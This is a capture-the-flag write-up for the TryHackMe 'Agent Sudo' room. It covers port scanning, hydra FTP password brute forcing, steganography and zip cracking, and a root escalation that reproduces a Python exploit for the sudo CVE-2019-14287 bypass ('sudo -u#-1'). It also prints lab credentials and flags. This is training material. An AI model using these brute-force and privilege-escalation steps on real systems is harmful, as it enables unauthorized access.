




# Agent Sudo
https://tryhackme.com/room/agentsudoctf

 ## Port scan

 ### Tool used: nmap
 <br>

 ```
 nmap agent

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-18 14:01 CDT
Nmap scan report for agent (10.10.245.160)
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.65 seconds
```

Browsing to the URL shows us we need to change our user-agent to access the site. Using THM's hint we know that it needs to be "C". If you are clever, you could probably deduce that information based on the use of "Agent R".<br><br>



Usinb *Burp*, we change the user-agent to "C" and send the request again:<br><br>





Now we have a username. From here, we use *hydra* to figure out the FTP password:<br><br>

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt -vV agent ftp -I

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-18 14:08:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://agent:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target agent - login "chris" - pass "jesus1" - 248 of 14344399 [child 9] (0/0)
[ATTEMPT] target agent - login "chris" - pass "crystal" - 249 of 14344399 [child 8] (0/0)
[ATTEMPT] target agent - login "chris" - pass "celtic" - 250 of 14344399 [child 3] (0/0)
[21][ftp] host: agent   login: chris   password: crystal
[STATUS] attack finished for agent (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-18 14:10:31
```

Using the discovered password, we login to the FTP server and find 3 files:<br><br>

```
ftp agent
Connected to agent.
220 (vsFTPd 3.0.3)
Name (agent:): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
425 Failed to establish connection.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,245,160,185,6).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

**To_AgentJ.txt**<br><br>

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

First, we use *stegseek* to take a crack at "cute-alien.jpg":<br><br>

```
stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".

cat cute-alien.jpg.out

Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Now we have some more credentials (probably for SSH). We try *stegseek* on "cutie.png", but it does not support PNG files, so we try *binwalk* and discover a ZIP file embedded:<br><br>

```
binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

../_cutie.png.extracted  ls

365  365.zlib  8702.zip  To_agentR.txt
```

At first, "To_agentR.txt" is empty. So, we take a crack at the ZIP file (pun intended):<br><br>

```
zip2john 8702.zip > zip.hash

ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type

sudo john zip.hash 

Created directory: /root/.john
--------------------------------------------------------------------------
The library attempted to open the following supporting CUDA libraries,
but each of them failed.  CUDA-aware support is disabled.
libcuda.so.1: cannot open shared object file: No such file or directory
libcuda.dylib: cannot open shared object file: No such file or directory
/usr/lib64/libcuda.so.1: cannot open shared object file: No such file or directory
/usr/lib64/libcuda.dylib: cannot open shared object file: No such file or directory
If you are not interested in CUDA-aware support, then run with
--mca opal_warn_on_missing_libcuda 0 to suppress this message.  If you are interested
in CUDA-aware support, then try setting LD_LIBRARY_PATH to the location
of libcuda.so.1 to get passed this issue.
--------------------------------------------------------------------------
Warning: detected hash type "ZIP", but the string is also recognized as "ZIP-opencl"
Use the "--format=ZIP-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

alien            (8702.zip/To_agentR.txt)

1g 0:00:00:00 DONE 2/3 (2022-09-18 14:23) 1.123g/s 49424p/s 49424c/s 49424C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we can unzip the file (using *7z* instead of *unzip* because it was throwing an error) and read "To_agentR.txt":<br><br>

```
7z e 8702.zip 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,128 CPUs x64)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280

    
Would you like to replace the existing file:
  Path:     ./To_agentR.txt
  Size:     0 bytes
  Modified: 2019-10-29 07:29:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 07:29:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? a

                    
Enter password (will not be echoed):
Everything is Ok

Size:       86
Compressed: 280
```

**To_agentR.txt**<br><br>

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

**NOTE:** You can use something like CyberChef to figure out that the string is "Area51", but *stegseek* did that for us, so we kind of skipped ahead.

After logging in via SSH with *james*, we see 2 files: "Alien_autospy.jpg" and "user_flag". Please note that autopsy is misspelled as autospy, so this might cause some confusion when you try to copy the file to your machine with *scp*.<br><br>

**user_flag.txt**:

```
b03d975e8c92a7c04146cfa7a5a313c7
```

For the next challenge question, we upload the image to TinEye and find the answer:



<br><br>

## Privilege escalation
<br>

Now it is time to elevate our privileges. Checking the *sudo* privilegs of *james* reveals that we can execute */bin/bash* as any user. Checking the *sudo* version indicates the system is vulnerable to CVE-2019-14287:<br><br>

```
sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
    
james@agent-sudo:~$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

**CVE-2019-14287**<br><br>

```py
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.8.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''


#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

After elevating our privileges, we find *root.txt*:<br><br>

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```